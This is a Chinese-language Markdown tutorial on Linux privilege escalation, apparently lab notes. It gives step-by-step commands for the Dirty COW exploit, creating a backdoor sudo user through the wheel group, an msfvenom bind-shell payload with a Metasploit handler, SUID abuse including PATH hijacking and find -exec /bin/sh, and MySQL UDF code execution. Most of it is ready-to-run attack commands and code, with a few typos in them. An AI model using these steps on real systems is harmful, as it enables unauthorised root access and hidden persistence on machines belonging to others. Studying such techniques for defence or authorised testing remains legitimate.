

# Linux提权

> Linux安装好系统后里面自带的软件或内核存在的漏洞，比较流行的有“脏牛提权”  
> Linux内核提权跟Windows一样，都要下载对应漏洞的脚本进行提权

### Linux提权步骤

##### 信息收集

|命令|说明|
| -------------------| ----------------------------------------------------------------------------------------------------------------------------------|
|uname -a|打印所有可用的系统信息<br /><br />|
|uname -r|内核版本<br /><br />|
|uname -m|查看系统内核架构（64/32）<br /><br />|
|cat /proc/version|内核信息<br /><br />|
|cat  /etc/issue|发行版本信息<br /><br />|
|whoami|当前用户<br /><br />|
|id|当前用户信息<br />​​<br />|

​​

##### 查找相关版本的内核漏洞

exp搜索链接：https://www.exploit-db.com/  
exp下载链接：https://github.com/SecWiki/linux-kernel-exploits

##### 使用exp，利用漏洞进行提权

### 实验

#### Linux脏牛提权过程--dirty.c

蚁剑连接shell，打开虚拟终端查看当前用户和内核版本信息

如果 Linux Kernel>= 2.6.22则可以利用脏牛进行提权

```bash
id
uname -a
```

​​​​

将脏牛工具上传到/tmp目录下

进入/tmp目录，编译脏牛工具（上传的是源码脚本，编译后才能执行）

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

​​​

​​​

执行脏牛工具，执行文件，后面是密码，随便定义

```bash
./dirty 123456
```

‍

​​​​

验证查看

```bash
cat /etc/passwd
```

​​

用firefart用户进行远程连接，并查看权限

```bash
ssh firefart@192.168.100.247
id
```

利用权限提升后创建后门用户

```bash
mv /tmp/passwd.bak /etc/passwd
```

wheel组为普通管理员组，默认不开启，利用wheel组来创建后门用户

修改/etc/sudoers配置文件，默认只读，需要修改权限

```bash
chmod u+w /etc/sudoers
```

去除配置文件的105行注释，使wheel组生效

```bash
vim /etc/sudoers
```

创建普通用户gua，并添加wheel组，使其拥有管理员权限

```bash
useadd gua
passwd gua
gpasswd -a gua wheel
```

低级用户切换到root权限

```bash
sudo su root
```

‍

#### ubuntu14脏牛提权

1.蚁剑连接shell，打开虚拟终端查看当前用户和内核版本信息

2.可写目录/tmp下上传msf木马，并msf监听

```bash
msfvenom -p linux/x86/shell/bind_tcp lport=4567 -f elf >4567.elf
```

攻击机msf设置

```bash
use exploit/multi/handler
set payload linux/x86/shell/bind_tcp
set lport 4567
set rhost 192.168.100.247
run
```

3.获取shell，将简单的shell转换为完全交互式的TTY

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

4.蚁剑将提权的exp上传到目标机，并执行exp

上传的exp要设置为最高权限

```bash
chmod 777 dcow-shell-ubuntu
./dcow-shell-ubuntu -s

echo 0 > /proc/sys/vm/dirty_writeback_centisecs
cp /tmp/.ssh_bak /etc/passwd
rm /tmp/.ssh_bak
id
```

​​

#### suid提权

> 概念：作用于二进制可执行程序上，当执行这个程序时会临时切换身份为文件所有者身份。如:典型的用户修改密码  
>
> 权限设定方法:  
> 1.字母表示法:  
> chmod u+s FILE ... → 添加SUID权限  
> chmod u-s  FILE ... → 删除SUID权限  
> 2.数字表示法:
>
> chmod 4755 FILE >添加SUID权限到二进制程序文件  ** 在普通三位数字权限之前，用4代表添加到SUID位  
> chmod 0xxx  FILE >可以删除文件的SUID  
>
> 文件权限表示:
>
> 文件属主的x权限用s(小写s)代替，表示被设置了SUID
>
> 如果属主为没有x权限，会显示为大写S，表示权限无效

‍

##### 自定义文件进行提权

1.编写.c文件，内容为root权限，在/tmp路径下，切换到普通用户，实现第三方免密用指定账号登录

demo.c

```bash
vi demo.c
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("su - gua");
}
```

2.编译文件，得到二进制文件demo

```bash
gcc demo.c -o demo
```

3.给demo文件添加s权限

```bash
chmod u+s demo
```

4.伪装su文件。因为demo.c中有“su-gua”这个系统命令，要让这个su命令执行的不是系统自带的su脚本

```bash
echo "/bin/bash" >su
cat su
chmod 777 su
```

5.添加环境变量，让系统执行/tmp下的su文件：

```bash
export $PATH=/tmp:$PATH
echo $PATH                //验证环境路径
```

测试，在普通用户下运行demo程序，成功切换到root用户，提权成功

```bash
cd /tmp
./demo
id
```

##### find_Suid提权

###### 部署环境

1.找到find的脚本路径位置，并对其添加s权限

```bash
which find 查找
chmod u+s  /usr/bin/find
```

2.测试：切换普通用户，并执行find语句。执行 whoami 的结果为root,说明find的s权限，让恶意用户越权成功

```bash
cd /tmp

find dcro-ubuntu -exec "whoami"

find dcro-ubuntu -exec "/bin/sh"  临时交互平台，用的root用户权限，/bin/bash不行
```

###### 其他suid提权

```bash
bash less/more/man python/perl/ruby/lua awk tcpdump 等
```

‍

‍

#### Mysql UDF提权

> Linux提权和Windows所用的文件不同，用的.os

##### 要求

* MySQL配置中，secure_file_priv=&quot; &quot;
* 具有root权限，且mysql数据库以system权限运行
* 具有SQL语句的执行权限
* 导出目录可写
* 系统中的selinux处于关闭状态

‍

##### 提权过程

前提shell连接，数据库连接

1. 查找插件库的路径

    * 查看mysql的plugin目录路径

      ```bash
      show variables like '%plugin%';
      ```
2. 找到对应数据库操作系统的UDF库文件
3. 将udf库文件转为十六进制

    * ```bash
      select unhex('udf十六进制内容') into dumpfile '/usr/lib64/mysql/plugin/ichunqiu.so';
      ```
4. 在数据库中写入udf库所支持的函数

    ```bash
    create function sys_eval returns string soname 'ichunqiu.so';
    ```
5. 加载函数
6. 执行

    ```bash
    select sys_eval('whoami');
    ```

‍

‍

‍
